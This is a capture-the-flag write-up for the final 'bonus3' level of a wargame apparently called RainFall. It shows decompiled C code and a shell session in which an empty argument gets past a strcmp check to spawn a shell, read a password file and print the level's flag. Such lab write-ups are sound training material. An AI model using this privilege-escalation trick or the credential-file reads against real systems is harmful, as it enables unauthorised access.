Using scp to export the executable:

```c
➜  ~ scp -P 4242 bonus3@0.0.0.0:/home/user/bonus3/bonus3 .
	  _____       _       ______    _ _ 
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
bonus3@0.0.0.0's password: 
bonus3                                        100% 5595     3.8MB/s   00:00
```

By specifying the buffer size (132) as an argument, it segfaults.

After looking at the code for a few minutes, the solution becomes quite clear:

```c
#include <stdio.h>

int main(int argc, const char **argv, const char **envp)
{
  char ptr[132];
  FILE *file;

  file = fopen("/home/user/end/.pass", "r");
  memset(ptr, 0, sizeof(ptr));
  if ( !file || argc != 2 )
    return -1;
  fread(ptr, 1, 66, file);
  ptr[65] = 0;
  ptr[atoi(argv[1])] = 0;
  fread(&ptr[66], 1, 65, file);
  fclose(file);
  if ( !strcmp(ptr, argv[1]) )
    execl("/bin/sh", "sh", 0);
  else
    puts(&ptr[66]);
  return 0;
}
```

Here, our only control over the program is through argv[1]. The condition to meet in order to open a shell is as follows:

```c
  if ( !strcmp(ptr, argv[1]) )
    execl("/bin/sh", "sh", 0);
```

However, we see that a ptr location is set to null on this line:

```c
ptr[atoi(argv[1])] = 0;
```

If argv is null, atoi will return index 0 to ptr, and thus ptr[0] will be equal to 0, satisfying the condition.

And there you have the simplest flag for this project:

```c
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

Upon reaching the end user, you see a congratulatory message:

```
end@RainFall:~$ cat end 
Congratulations graduate!
```